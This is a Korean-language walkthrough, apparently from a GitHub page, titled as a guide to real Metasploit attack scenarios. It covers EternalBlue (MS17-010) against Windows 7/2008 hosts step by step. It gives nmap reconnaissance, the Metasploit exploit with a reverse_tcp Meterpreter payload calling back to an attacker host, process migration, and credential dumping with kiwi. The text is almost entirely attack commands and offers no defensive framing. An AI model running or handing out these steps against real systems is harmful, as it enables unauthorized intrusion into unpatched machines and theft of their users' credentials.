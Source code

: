 # Metasploit 실제 공격 시나리오 가이드

## 시나리오 1: Windows SMB 취약점 공격 (가장 일반적)

### 상황: Windows 7/2008 Server EternalBlue 공격

#### 1단계: 타겟 발견 및 정찰

```bash
# 네트워크 스캔
nmap -sS -O 192.168.1.0/24

# SMB 서비스 확인
nmap -p 445 --script smb-vuln-ms17-010 192.168.1.100

# Metasploit에서 확인
msfconsole -q
msf6 > use auxiliary/scanner/smb/smb_ms17_010
msf6 auxiliary(scanner/smb/smb_ms17_010) > set RHOSTS 192.168.1.100
msf6 auxiliary(scanner/smb/smb_ms17_010) > run
```

#### 2단계: 익스플로잇 실행

```bash
# EternalBlue 익스플로잇 설정
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 192.168.1.100
msf6 exploit(windows/smb/ms17_010_eternalblue) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 192.168.1.50
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit

# 성공시 Meterpreter 세션 획득
meterpreter >
```

#### 3단계: 권한 상승 및 정보 수집

```bash
# 현재 권한 확인 (이미 SYSTEM일 가능성 높음)
meterpreter > getuid

# 시스템 정보 수집
meterpreter > sysinfo

# 안정적인 프로세스로 마이그레이션
meterpreter > ps | grep explorer
meterpreter > migrate 1234

# 크리덴셜 덤프
meterpreter > load kiwi
meterpreter > creds_all
```
